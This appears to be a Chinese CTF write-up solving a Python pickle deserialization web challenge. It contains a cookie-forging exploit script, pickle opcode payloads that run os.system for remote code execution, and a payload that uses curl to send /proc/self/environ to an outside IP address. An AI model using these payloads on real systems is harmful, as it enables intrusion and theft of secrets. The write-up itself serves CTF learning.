

```
import requests

url = "http://cbc0bd6f-2b6c-40eb-9b25-e69f293b2a4a.node1.hackingfor.fun/"

headers1 = {
    "Cookie":"pkl=gASVPQAAAAAAAACMCF9fbWFpbl9flIwGUGVyc29ulJOUKYGUfZQojARuYW1llIwHQ3hsb3ZlcpSMCGlzX2FkbWlulEsAdWIu; session=eyJpc19hZG1pbiI6MCwibmFtZSI6IkN4bG92ZXIifQ.YY_kJA.CkMNAiYIGjqVqVXZg73VAd_RGSI"
}

headers2 = {
    "Cookie":"pkl=gANjX19tYWluX18KY29uZmlnCn0oVnNlY3JldF9rZXkKVmNpb2llcgp1YjBjX19tYWluX18KUGVyc29uCnEAKYFxAX1xAihYBAAAAG5hbWVxA1gHAAAAQ3hsb3ZlcnEEWAgAAABpc19hZG1pbnEFSwF1Yi4=;session=eyJpc19hZG1pbiI6MCwibmFtZSI6IkN4bG92ZXIifQ.YY_kJA.CkMNAiYIGjqVqVXZg73VAd_RGSI"
}

headers3 = {
    "Cookie":"pkl=gANjX19tYWluX18KY29uZmlnCn0oVnNlY3JldF9rZXkKVmNpb2llcgp1YjBjX19tYWluX18KUGVyc29uCnEAKYFxAX1xAihYBAAAAG5hbWVxA1gHAAAAQ3hsb3ZlcnEEWAgAAABpc19hZG1pbnEFSwF1Yi4=;session=eyJpc19hZG1pbiI6MSwibmFtZSI6IkN4bG92ZXIifQ.YY_k-A.7Dh_sZNchzUt3E1Z8B0xHaJbaG0"
}

data = {
    "name":"Cxlover"
}

requests.post(url=url+"login", data=data)
requests.get(url=url+"login",headers=headers1)
requests.get(url=url+"login",headers=headers2)
requests.get(url)           
ans = requests.get(url=url+"login",headers=headers3)
print(ans.text) 
```

伪造session成功后获取flag


### 方法二

直接不使用R来进行rce
**R：**

```
b'''cos
system
(S'whoami'
tR.''' 
```

**i：**

```
b'''(S'whoami'
ios
system
.''' 
```

**o：**

```
b'''(cos
system
S'whoami'
o.''' 
```

我们这里使用curl请求，然后nc接收得到回显的内容，当然也可以反弹shell，更简单

```
import base64
data=b'''(S'curl -F "filename=@/proc/self/environ" 110.42.134.160:6666'
ios
system
.'''
print(base64.b64encode(data)) 
```

base64编码传入，然后就可以看到回显了


参考：[UNCTF2020 WriteUp](https://jlkl.github.io/2020/11/19/Web_17/)